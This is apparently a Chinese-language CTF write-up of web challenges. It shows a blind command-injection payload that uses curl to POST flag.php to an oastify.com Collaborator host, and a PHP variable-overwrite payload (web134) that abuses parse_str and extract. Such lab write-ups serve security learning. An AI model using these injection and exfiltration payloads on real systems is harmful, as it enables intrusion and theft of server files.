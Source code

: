 curl -F的使用

我们将F=`$F`;sleep 3，发现网站确实sleep了一会说明的确执行了命令，那么我们后面可以添加执行的命令（``相当于shell_exec()无回显）

这里相当于eval(`$F`) -->  eval(shell_exec("`$F `;sleep 3")); 

变成一道无回显的RCE

这里是先截取前六位，再执行

```
curl -F 将flag文件上传到Burp的 Collaborator Client （ Collaborator Client 类似DNSLOG，其功能要比DNSLOG强大，主要体现在可以查看 POST请求包以及打Cookies）
```

payload

```
#其中-F 为带文件的形式发送post请求
#xx是上传文件的name值，flag.php就是上传的文件
F=`$F`;+curl -X POST -F xx=@flag.php 7jrgbwpz6pzv1qfqnk11in4q2h89wzko.oastify.com
```

![image-20240114211125857](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20240114211125857.png)

## web134(POST数组的覆盖)

```php
<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```

payload

```PHP
<?php
parse_str($_SERVER['QUERY_STRING']);
var_dump($_POST);
```

```
;然后我们传入 _POST[‘a’]=123
会发现输出的结果为array(1) { ["‘a’"]=> string(3) “123” }
也就是说现在的$_POST[‘a’]存在并且值为123

题目中还有个extract($_POST)
这样的话 $a==123
```

```
_POST[key1]=36d&_POST[key2]=36d
```
